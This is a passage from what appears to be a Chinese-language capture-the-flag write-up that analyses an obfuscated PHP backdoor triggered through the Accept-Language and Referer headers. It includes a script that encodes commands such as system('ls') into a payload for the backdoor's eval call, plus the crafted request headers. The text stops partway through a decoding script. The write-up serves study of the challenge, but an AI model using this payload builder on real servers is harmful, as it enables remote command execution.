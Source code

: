 
代码的重点在于 `Accept-Language`，`Referer` 和感叹号所在的行，因为可以用 `eval` 执行代码。

首先 `x` 函数显然是循环异或。随后仔细阅读 `preg_match_all` 的正则表达式，发现它将 `Accept-Language` 分成了 3 部分，`m[0]` 存每种语言的完整字符串，`m[1]` 存首字母，`m[2]` 存语言权重小数点后的数字。

> Accept-Language 格式：` 语言;q=权重 `，例如 `en-US;q=0.5`

而 `$i` 取的是 `$m[1][0].$m[1][1]`，也就是前两种语言的首字母。`$h` 和 `$f` 不难计算，我们假设输入的语言是 `zh-CN,zh`，那么 `$i` 就是 `zz`，计算得到 `$h` 为 `675`，`$f` 为 `a3e`。

不过下面的 `for` 循环有点绕：
```php
for($z=1; $z<count($m[1]); $z++)
  $p.=$q[$m[2][$z]];
```
`$z` 指当前是第几种语言，`$m[2][$z]` 就是该语言权重的小数点后第一位，以这个值为索引取得 `Referer` 的 url 中 query string 里对应索引的那个参数值拼接到 `$p` 上。

下面的 `if` 判断 `$p` 是不是以 `$h` 开头 `$f` 结尾，如果是则进入下面的 `eval` 函数，我们才能实现命令注入。`eval` 函数内是一个简单的写逆向函数的过程。

脚本：
```php
<?php
// 照搬
function x($t,$k)
{
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0; $i<$l;)
    {
        for($j=0; ($j<$c&&$i<$l); $j++,$i++)
        {
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}

function inject($cmd) {
    $payload = base64_encode(x(gzcompress($cmd), "4f7f28d7"));
    return "675".$payload."a3e";
}

echo inject('system("ls");');
?>
```
将得到的字符串放在 `Referer` 的第一个参数里，设置请求头：
```
Accept-Language: zh-CN,zh;q=0.0
Referer: http://12.12.12.12/index.php?a=675TPocyB4WLfrhNv1PZOrQMTREimJna3e
```
得到经过编码的返回值：
```
TPp8VHv2Kv4DTuVN+hCEff8ve2EBCpdlZk33ypDEwMumBIr0uCrKpbiq1Z5+6xyPHma96ydT
```
再写脚本解码：
```php
<?php
// 照搬
function x($t,$k)
{
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0; $i<$l;)
    {
```